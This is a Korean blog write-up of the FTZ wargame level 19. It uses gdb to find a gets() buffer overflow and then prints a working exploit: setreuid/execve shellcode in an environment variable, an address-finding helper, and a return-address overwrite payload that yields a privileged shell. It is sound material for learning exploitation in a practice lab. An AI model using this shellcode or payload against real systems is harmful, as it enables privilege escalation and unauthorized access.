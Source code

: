 ```yaml
---
title:  "[FTZ] level 19"

categories: ftz
tags: [ftz]

toc: true
toc_sticky: true

date: 2021-12-20 12:46:30

---
```


# level 19

**level19 / swimming in pink**

힌트

![image](https://user-images.githubusercontent.com/69203345/146763019-b7fb8f97-58df-4096-9c69-6d107407a80e.png)

이번 힌트는 굉장히 짧다  
그동한 했던거와 다른 점이라면 setreuid가 없다
setreuid가 있는 41바이트 쉘코드를 사용할 예정이다

gdb를 통해 buf 위치부터 확인

![image](https://user-images.githubusercontent.com/69203345/146763326-ddbfa169-e57e-4473-a2d5-a1dbe50b6a6d.png)

0x08048443 <main+3>: sub esp, 0x28  
0x28(40바이트) 스택 크기를 할당

0x0804844d <main+13>: call 0x80482f4 <gets>  
gets함수 호출 하는데 인자로 buf를 사용함  
<main+13>위에 있는 eax가 buf의 시작부분이고 <main+9>에서 알 수 있다
즉 [ebp-40]이 buf시작 위치 이다


낮은주소 

buf[20] [ebp-40]  
dummy[20]  
sfp[4]  
ret[4]

높은주소

환경변수 쉘코드 사용, setreuid가 있는 41바이트 쉘코드 사용   
> export EGG=\`python -c 'print "\x90"*15+"\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`  
> echo 'int main() { printf("ADDR -> 0x%x\n", getenv("EGG")); } ' > getenv.c  
> gcc getenv.c -o getenv

[쉘코드 출처](https://mandu-mandu.tistory.com/22)

![image](https://user-images.githubusercontent.com/69203345/146767483-841a75e9-927f-4d84-8850-7fce7d3dba8b.png)

나온 주소를 사용해서 리턴주소를 덮을 페이로드 작성  
> (python -c 'print"A"*44+"\x8b\xfc\xff\xbf"'; cat) | ./attackme

![image](https://user-images.githubusercontent.com/69203345/146767920-67c794ff-70f0-42e3-9703-6733786c243e.png)

